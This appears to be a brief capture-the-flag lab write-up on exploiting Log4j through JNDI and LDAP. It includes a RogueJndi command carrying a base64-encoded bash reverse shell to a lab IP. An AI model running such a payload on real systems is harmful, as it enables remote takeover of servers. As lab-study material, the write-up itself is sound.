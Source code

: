 **log4j (via HTB Writeup)**

"`JNDI` (Java Naming and Directory Interface) API . By making calls to this API,
applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

`LDAP` (Lightweight Directory Access Protocol) is an open, vendor-neutral,
industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389."

***Important note:*** you must remove the spaces from the command listed in the [above writeup](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) in order to succesfully get a reverse shell:

```shell {linenos=false}
$ java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMjUvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.25"
```

![pwncat](/img/tier2/pwncat.png)
